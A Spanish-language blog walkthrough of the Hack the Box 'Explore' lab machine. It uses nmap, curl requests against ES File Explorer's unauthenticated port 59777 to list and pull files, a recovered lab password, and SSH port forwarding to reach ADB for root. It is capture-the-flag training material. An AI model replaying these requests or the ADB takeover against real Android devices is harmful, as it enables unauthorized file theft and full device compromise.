



# Hack the Box - Explore Walkthrough


Dandole inicio a los post del blog, en esta ocasión vamos a estar resolviendo la máquina de hackthebox Explore, por cada parte de la resolución vamos a estar usando un poco el formato del template de reportes de offensive security.

### Resumen:

Al realizar una prueba de penetración controlada, se ha identificado una vulnerabilidad la cual nos permite realizar ejecución de comandos lo que convella a poder leer archivos del sistema o ejecutar aplicaciones a través de este fallo, este problema es debido al uso de software con falta de actualizaciones. 

### Recomendaciones

Se recomienda actualizar el software a su version mas reciente.

### Fase de recolección de información

La parte de enumeración en una prueba de penetración test se centra en recopilar información sobre qué servicios están vivos en un sistema o sistemas. Para ello vamos estar haciendo uso de la herramienta de nmap.

#### Parametros de Nmap:


|:-------------|:-------------------------------------------------|
| -p-          | Que se escanen todos los puertos		  |	
| -sS	       | Analisis utilizando  TCP SYN           	  |
| -Pn          | Deshabilitar el descubrimiento de host 	  |
| -vvv         | imprimir información sobre el escaneo en curso.  |
| --open       | Mostrar solo puertos abiertos  		  |
| -n           | Nunca hacer resolución DNS			  |
| --min-rate   | Envíe paquetes no más lento que X por segundo    |
| -oG          | Exportar lo resultados en formato grepeable      |

```bash
┌──(kali㉿kali)-[~/machines/htb/explore]
└─$ sudo nmap -p- -sS -Pn -vvv --open -n --min-rate 5000 10.10.10.247 -oG allports                              130 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 14:11 EDT
Initiating SYN Stealth Scan at 14:11
Scanning 10.10.10.247 [65535 ports]
Discovered open port 34205/tcp on 10.10.10.247
Discovered open port 42135/tcp on 10.10.10.247
Discovered open port 59777/tcp on 10.10.10.247
Discovered open port 2222/tcp on 10.10.10.247
Completed SYN Stealth Scan at 14:12, 15.80s elapsed (65535 total ports)
Nmap scan report for 10.10.10.247
Host is up, received user-set (0.32s latency).
Scanned at 2021-11-05 14:11:54 EDT for 16s
Not shown: 65530 closed ports, 1 filtered port
Reason: 65530 resets and 1 no-response
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON
2222/tcp  open  EtherNetIP-1 syn-ack ttl 63
34205/tcp open  unknown      syn-ack ttl 63
42135/tcp open  unknown      syn-ack ttl 63
59777/tcp open  unknown      syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.91 seconds
           Raw packets sent: 74603 (3.283MB) | Rcvd: 74587 (2.983MB)
```
<br>

Finalizado el escaneo tenemos la siguiente informacion:



Una vez identificados que puertos estan abiertos en la maquina objectivos seguiremos recolectando informacion sobre que servicios y versiones que estan corriendo sobre estos puertos, para ello seguiremos utilizando nmap.

#### Parametros de Nmap:


|:-------------|:-----------------------------------------------------------------------------------------|
| -pPORTS      | Que se escanen los puertos definidos		  					  |	
| -sV	       | Intenta determinar la versión del servicio que se ejecuta en el puerto           	  |
| -sC          | Analizar los puertos con scripts NSE predeterminados. 	  			          |

```bash
──(kali㉿kali)-[~/machines/htb/explore]
└─$ nmap -p2222,34205,42135,59777 -sV -sC 10.10.10.247
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 14:55 EDT
Nmap scan report for 10.10.10.247
Host is up (0.32s latency).

PORT      STATE  SERVICE VERSION
2222/tcp  open   ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
34205/tcp closed unknown
42135/tcp open   http    ES File Explorer Name Response httpd
|_http-server-header: ES Name Response Server
|_http-title: Site doesn't have a title (text/html).
59777/tcp open   http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.91%I=7%D=11/5%Time=61857E39%P=x86_64-pc-linux-gnu%r(NU
SF:LL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
Service Info: Device: phone

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
<br>

### Fase de Búsqueda de vulnerabilidades

Tambien conocida como la fase de Análisis de vulnerabilidades, Básicamente esta fase es la encargada de analizar toda la información recolectada anteriormente, donde tendremos que identificar vulnerabilidades o posibles vectores de ataque de los sistemas y apartir de dicho analisis concluir cual sería el ataque más efectivo.

Una vez identificados los servicios, usando google vamos a verificar si existe alguna vulnerabilidad conocida.



### Fase de Explotación de vulnerabilidades

A partir de los resultados obtenidos anteriormente, en esta fase es ejecutar exploits contra las vulnerabilidades identificadas, ataques a entornos AD, utilizar credenciales obtenidas con el uso de algotra tecnica por ejemplo (fuerza bruta, SQli, etc) para ganar acceso a los sistemas.

**Vulnerabilidad Explotada:**  Falta autenticación para funciones críticas	

**Sistema Vulnerable:** 10.10.10.247

**Explicación de la vulnerabilidad:** ES File Explorer crea un servidor HTTP en el puerto 59777 cuando la aplicación es iniciada y permanece abierto aunque esta se cierre. Las peticiones que se envien a este puerto no requiere ningun tipo de autenticación permitendole a un acatante a través de peticiones HTTP ejecutar aplicaciones y leer archivos remotamente en la misma red local.

**Severidad:** Critica

**CVVS 3.1:** 7.3, **Vector:** CVSS:3.1/AV:A/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N

**Prueba de concepto (PoC):** https://github.com/fs0c131y/ESFileExplorerOpenPortVuln

Dentro el enlace a github podemos observar la manera de como armar la peticion json por medio de curl o podes usar el script de python para enviar comandos por medio de este. En mi caso he usado curl para poder materializar la vulnerabilidad.

Antes de enviar las peticiones debemos conocer la lista de comandos que podemos ejecutar en el dispositivo

```text
listFiles: Enumerar todos los archivos
listPics: Lista de todas las imágenes
listVideos: Enumera todos los videos
listAudios: Lista de todos los archivos de audio
listApps: Enumera todas las aplicaciones instaladas
listAppsSystem: Enumera todas las aplicaciones del sistema
listAppsPhone: Enumera todas las aplicaciones del teléfono
listAppsSdcard: Enumere todos los archivos apk en la sdcard
listAppsAll: Enumere todas las aplicaciones instaladas (incluidas las aplicaciones del sistema)
getDeviceInfo: Obtener información del dispositivo
appPull: extrae una aplicación del dispositivo. Se necesita el parámetro de nombre de paquete
appLaunch: Inicie una aplicación. Se necesita el parámetro de nombre de paquete
getAppThumbnail: Obtén el icono de una aplicación. Se necesita el parámetro de nombre de paquete
```

Vamos a verificar la informacion del dispositivo haciendo uso del comando getDeviceInfo

```bash
curl --header "Content-Type: application/json" --request POST --data "{\"command\":getDeviceInfo}" http://10.10.10.247:59777
{"name":"VMware Virtual Platform", "ftpRoot":"/sdcard", "ftpPort":"3721"}
```

Al ejecuta el comando podemos obtener informacion del dispositivo, al estar ejecutando varios de los comandos disponibles para enumerar archivos dentro de los directorios se ha encontrado la flag del usuario en la carpeta sdcard.

```bash
┌──(kali㉿kali)-[~/machines/htb/explore]
└─$ curl --header "Content-Type: application/json" --request POST --data "{\"command\":listFiles}" http://10.10.10.247:59777/sdcard          
[
{"name":"Android", "time":"3/13/21 05:16:50 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":".estrongs", "time":"3/13/21 05:30:39 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Download", "time":"3/13/21 05:37:03 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"dianxinos", "time":"4/21/21 02:12:29 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Notifications", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"DCIM", "time":"4/21/21 02:38:16 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Alarms", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Podcasts", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Pictures", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":".userReturn", "time":"11/5/21 05:41:34 PM", "type":"file", "size":"72.00 Bytes (72 Bytes)", }, 
{"name":"user.txt", "time":"3/13/21 06:28:55 PM", "type":"file", "size":"33.00 Bytes (33 Bytes)", }, 
{"name":"Movies", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Music", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"backups", "time":"3/13/21 05:30:13 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"Ringtones", "time":"3/13/21 05:16:51 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }
]                                                                                                                                                                                                                                             
```

Al seguir enumerando archivos con la lista de comandos disponibles para buscar la menera de poder comprometer el dispositivo al enviar listPics obtenemos una imagen con la palabra "creds":

```bash
┌──(kali㉿kali)-[~/machines/htb/explore]
└─$ curl --header "Content-Type: application/json" --request POST --data "{\"command\":listPics}" http://10.10.10.247:59777
[
{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)", },
]
```
Para poder ver el contenido de esta foto simplemente basta con poder hacer un wget a la ruta http://IP:PORT/storage/emulated/0/DCIM/creds.jpg


```text
kristi:Kr1sT!5h@Rp3xPl0r3!
```

Hemos encontrado unas credenciales, que podemos hacer con estas siendo un dispositivo movil. Lo importante cuando se realiza una auditoria es reutilizar credenciales. Durante la fase de reconocimiento se ha detectado que el servicio de ssh esta corriendo en el puerto 2222, vamos intentar conectarnos haciendo uso de estas.

```text
┌──(kali㉿kali)-[~]
└─$ ssh kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
:/ $ 
```
Se ha podido realizar el inicio de sesion por medio de ssh haciendo uso de las credenciales encontradas en la imagen.

### Fase Post-explotación.

En esta etapa, se intenta llegar más lejos dentro del sistema vulnerado, es decir conseguir credenciales o permisos de super usuario del sistema comprometido o incluso vulnerar otros sistemas por medio de tecnicas de pivoting u otras.

Existen diferentes herramientas que nos ayudan a buscar informacion del sistema para poder encontrar un vector de ataque para poder realizar la escalacion de privelegios, en este caso por un sistema operativo android se ha realizados de manera manual, se han verificado servicios corriendo, archivos con permisos de los cuales nos podriamos aprovechar asi como ver que puertos estan en escucha.

```text
┌──(kali㉿kali)-[~]
└─$ ssh kristi@10.10.10.247 -p 2222
Password authentication
Password: 
:/ $ netstat -ntpl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
tcp6       0      0 :::2222                 :::*                    LISTEN      3427/net.xnano.android.sshserver
tcp6       0      0 ::ffff:127.0.0.1:45231  :::*                    LISTEN      -
tcp6       0      0 :::5555                 :::*                    LISTEN      -
tcp6       0      0 ::ffff:10.10.10.2:34293 :::*                    LISTEN      -
tcp6       0      0 :::59777                :::*                    LISTEN      -
```
Se ha identificado el puerto 5555 lo cual no salio en el escaneo que realizamos al principio, realizamos uno rapido.

```text
┌──(kali㉿kali)-[~]
└─$ nmap -p5555 10.10.10.247                                                                                                                                                                                                           127 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 20:14 EDT
Nmap scan report for 10.10.10.247
Host is up (0.32s latency).

PORT     STATE    SERVICE
5555/tcp filtered freeciv

Nmap done: 1 IP address (1 host up) scanned in 3.75 seconds
```

Aparece como filtrado, hace mucho tiempo que juego con Pentest a aplicaciones android, asi que veamos lo siguiente.

Cuando se habilita las opciones de depuracion USB ADB o Android Debug Bridge, esta es una función o herramienta de línea de comandos lanzada por Android para conectar y operar dispositivos basados en este sistema operativo de forma remota. Este servicio lo podemos encontrar entre los rangos de puertos del 5555 a 5585.



Ahora como nos podemos aprovechar de esto para conectarnos al dispositivo si el puerto aparece como filtrado y no podemos hacer la conexcion remota.

Para ello vamos estar haciendo uso de la tecnica conocida como Port forwarding.

```text
┌──(kali㉿kali)-[~/machines/htb/explore]
└─$ ssh -L 5555:localhost:5555 kristi@10.10.10.247 -p 2222                                                                                                                                                                             255 
Password authentication
Password: 
:/ $ 
```

Aqui haremos uso del las credenciales obtenidas nuevamente.

Vamos a verificar si se ha realizado correctamente el comando viendo si en nuestro equipo esta a la escucha el puerto 5555

```text
┌──(kali㉿kali)-[~]
└─$ netstat -antl                                     
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:5555          0.0.0.0:*               LISTEN     
```

El comando se ha ejecutado correctamenta, para poder proseguir es necesario tener instalado adb para poder realizar la comunicacion.

```text
apt install adb  
```

Una vez instalado adb nos permite poder conectarnos a dispositivos que tengan la comunicacion debug instalada. Como sabemos que en este caso hemos realiado el port forward en el puerto 5555 unicamente hay que ejecutar.

```text
┌──(kali㉿kali)-[~]
└─$ adb connect 127.0.0.1:5555
connected to 127.0.0.1:5555
```
Ahora vamos a levantar una terminal interactiva por medio de adb, para ello vamos hacer uso del comando.
Nota: Para tener una shell como super usuario bastaria unicamente ejecutar su luego que nos haya devuelto la shell interactiva.
```text
┌──(kali㉿kali)-[~]┌──(kali㉿kali)-[~]
└─$ adb shell                 
x86_64:/ $ su
x86_64:/ $ id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0
```
Tenemos los privelegios mas altos en el sistema, ahora unicamente queda buscando la flag de root.

#  Final

Hasta la proxima, si algun concepto no les quedo claro, los invito a ver las charlas que he dejado en la pagina principal para saber mas sonre pentest pentest en entornos android.

Saludos
